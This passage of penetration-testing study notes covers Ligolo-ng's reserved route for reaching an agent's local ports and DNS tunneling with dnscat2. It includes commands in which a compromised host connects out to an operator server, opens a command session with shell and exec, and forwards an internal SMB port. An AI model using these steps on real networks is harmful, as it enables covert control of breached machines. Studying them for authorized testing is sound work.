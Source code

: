 ## Access to local ports on agent
- If we need to access the local ports of the currently connected agent, there's a "magic" CIDR hardcoded in Ligolo-ng: _240.0.0.0/4_ (This is an unused IPv4 subnet). If we query an IP address on this subnet, Ligolo-ng will automatically redirect traffic to the agent's local IP address (127.0.0.1)
```zsh
[Agent : Unknown@MULTISERVER03] » interface_route_add --name ligolo --route 240.0.0.0/4
INFO[0134] Route created.
```
# DNS Tunneling With dnscat2
- If we only have outbound port 53 open, we can try to tunnel traffic through DNS using `dnscat2`
- We need to transfer the `dnscat2` binary to our compromised host and connect tot our `dnscat2-server`
```zsh
dnscat2-server feline.corp #Set up the dnscat2-server

dnscat feline.corp #Connect to our dnscat2-server
```
- After we have an established session, we can run the `windows` command on our server and list available session. Use `window -i <sessionnumber>` to interact and use `?` to list available commands. Use `<command> --help` to show info on the individual commands
```zsh
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 security: ENCRYPTED BUT *NOT* VALIDATED
For added security, please ensure the client displays the same string:

>> Half Cued Phials Libate Timer Pontic
This is a command session!

That means you can enter a dnscat2 command such as
'ping'! For a full list of clients, try 'help'.

command (pgdatabase01) 1> ?

Here is a list of commands (use -h on any of them for additional help):
* clear
* delay
* download
* echo
* exec
* help
* listen
* ping
* quit
* set
* shell
* shutdown
* suspend
* tunnels
* unset
* upload
* window
* windows
```
- We can set up port forwarding with the `listen` command
```zsh
command (pgdatabase01) 1> listen 127.0.0.1:4455 172.16.150.217:445
Listening on 127.0.0.1:4455, sending connections to 172.16.150.217:445
```